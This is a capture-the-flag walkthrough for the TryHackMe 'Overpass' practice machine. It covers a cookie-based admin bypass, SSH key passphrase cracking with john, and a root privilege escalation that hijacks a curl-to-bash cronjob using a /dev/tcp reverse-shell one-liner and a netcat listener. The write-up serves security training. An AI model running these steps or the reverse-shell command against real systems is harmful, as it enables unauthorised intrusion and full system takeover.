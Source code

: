# Overpass

- Hack the machine and get the flag in user.txt

	- `nmap -sV -p- <TARGET_IP>`
	- `scilla dir -target <TARGET_IP>`, [scilla](https://github.com/edoardottt/scilla)
	- There is a `/admin/` page and a `cookie.js` file...... ahahaha
	- Inspect a bit the code, in particular `cookie.js` and `login.js`.
	- Create a cookie called `sessionToken` with value `admin`.
	- Refresh the `/admin/` page.
	- Copy the RSA private key into a file called `id_rsa`.
	- Move this file into `~/.ssh`.
	- `chmod 700 ~/.ssh/id_rsa`
	- `ssh james@<TARGET_IP>`
	- Noo. We need the passphrase.
	- `/usr/share/john/ssh2john.py ~/.ssh/id_rsa > key.txt`
	- `john key.txt --wordlist=/usr/share/wordlists/rockyou.txt`
	- `*******`
	- Try with ssh and insert password.
	- `cat user.txt`
	- `thm{********************************}`

- Escalate your privileges and get the flag in root.txt

	- `cat todo.txt`. Mhh...
	- `cat .overpass`
	- Copy that code.
	- Insert into CyberChef with recipe `ROT47`.
	- `[{"name":"******","pass":"********************"}]`
	- But these are just the credentials of james...
	- `cat /etc/crontab`
	~~~
	# Update builds from latest code
	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`
	~~~
	- Mhhh...
	- Edit `/etc/hosts` file inserting `<YOUR_IP>	overpass.thm` and deleting the previous one.
	- On your machine create `/downloads/src/buidscript.sh` and write into it `bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1;`
	- On your machine `python3 -m http.server 80`
	- On your machine `nc -lnvp 1234`
	- After a while that cronjob will be executed and you get a reverse root shell.
	- `cat root.txt`
	- `thm{********************************}`





